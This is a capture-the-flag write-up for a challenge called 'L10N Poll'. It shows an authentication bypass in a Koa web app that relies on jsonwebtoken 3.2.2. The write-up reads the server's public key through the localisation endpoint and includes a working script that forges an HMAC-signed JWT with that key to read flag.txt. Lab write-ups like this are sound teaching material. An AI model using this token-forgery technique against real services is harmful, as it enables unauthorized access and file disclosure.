







# L10N Poll

## Problem

I made the ultimate polling service! Il supporte tout les langues. Это потому, что на сайте используются передовые технологии локализации. ¿Puedes leer esto? أنا متأكد من أنني لا أستطيع. 立即开始！

\(The flag is stored in `flag.txt`.\)

## Solution

We can see the dependencies in package.json:

```javascript
{
  "dependencies": {
    "@koa/router": "^10.0.0",
    "jsonwebtoken": "^3.2.2",
    "koa": "^2.13.1",
    "koa-bodyparser": "^4.3.0",
    "koa-send": "^5.0.1",
    "koa-static": "^5.0.0"
  },
  "type": "module",
  "scripts": {
    "start": "node server.js"
  }
}
```

A quick search tells us that `jsonwebtoken` 3.2.2 is vulnerable to an authentication bypass vulnerability.







And we can see that in the response for `/localization-file`, the JWT token is checked and the language is set according to the token value.

```javascript
router.get("/localisation-file", async ctx => {
    const token = ctx.cookies.get("lion-token");
    /** @type {string} */
    let language;
    if (token) {
        const payload = await new Promise((resolve, reject) => {
            try {
                jwt.verify(token, publicKey, (err, result) => err ? reject(err) : resolve(result));
            } catch (e) {
                reject(e);
            }
        });
        language = payload.language;
    } else {
        language = languages[Math.floor(Math.random() * languages.length)].id;
        ctx.cookies.set("lion-token", generateToken(language));
    }
    await send(ctx, language, {root: __dirname});
});
```

JWT tokens are essentially encoded JSON data. However, normally we cannot tamper the data because there is a signature that is verified at the server-side.



However, in this particular exploit, as long as we are able to get hold of the public key, we can trick the server into thinking that the received public key is actually an HMAC secret key. Since we would know the public key, we would be able to generate a valid private key!

How do we get the key? Well, we know that the key file is in the `__dirname` directory.

```javascript
const publicKey = readFileSync(join(__dirname, "key"), "utf8");
```

In the POST handler for `/localization-language`, we are able to control the `language` parameter to make the server generate a JWT token with the corresponding language in the `language` field.

```javascript
router.post("/localization-language", async ctx => {
    const language = ctx.request.body?.language;
    if (typeof language === "string") {
        if (language.match(languageRegex)) {
            ctx.cookies.set("lion-token", generateToken(language));
        } else {
            ctx.throw(400, msgs[Math.floor(Math.random() * msgs.length)]);
        }
    } else {
        ctx.throw(400, "no language");
    }
    ctx.redirect("/");
});
```

Then, in the GET handler for `/localisation-file`, the server would send us the file at `<__dirname>/<language>`. Hence, we are able to read arbitrary files.

```javascript
await send(ctx, language, {root: __dirname});
```

However, since we have to pass the following regex:

```javascript
const languageRegex = /^[a-z]+$/;
```

we cannot read `flag.txt` or `key.priv`.

Let's test out this theory. I sent a POST request to the `/localization-language` endpoint, with the JSON data:

```javascript
{
    "language":   "key"
}
```



This sets the `"language"` parameter to `"key"` in the JWT token.



Then, let's send a GET request to `/localisation-file` to get the key file.



We can sign the token using the public key, then send it to the server. Although the server expects an RSA public key, because of the vulnerability mentioned earier, it thinks that this is an HMAC private key.

Since the private key was generated from the server's public key, it is definitely valid and the server would accept it.

Here's the script that would generate the JWT payload:

```javascript
import jwt from 'jsonwebtoken';

var key = `-----BEGIN PUBLIC KEY-----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQCRaHtUpvSkcf2KCwXTiX48Tjxf
bUVFn7YimqGPQbwTnE0WfR5SxLK/DH0os9jCCeb7pJ08AbHFBzQNUfbg47xI3aJh
PMdjL/w3iqfc56C7lt59u4TeOYc7kguph/GTYDPDZkgtbkFJmbkbg9MvV723U1PW
M7N2P4b2Xf3p7ZtaewIDAQAB
-----END PUBLIC KEY-----`;

var tokenPayload = {
    "language": "flag.txt",
    "iat": 1623595244
};

var forgedToken = jwt.sign(tokenPayload, key);

console.log(forgedToken);

try{
    console.log(jwt.verify(forgedToken, key))
} catch (e) {
    console.log(e);
}
```

Note that you'll have to downgrade `jsonwebtoken` to version 3.2.2 to test whether the exploit works.

The token is successfully verified, which means that our payload worked. We have changed the `language` parameter to `flag.txt`.



Plugging in this token value to our `lion-token` cookie, we can read `flag.txt`.



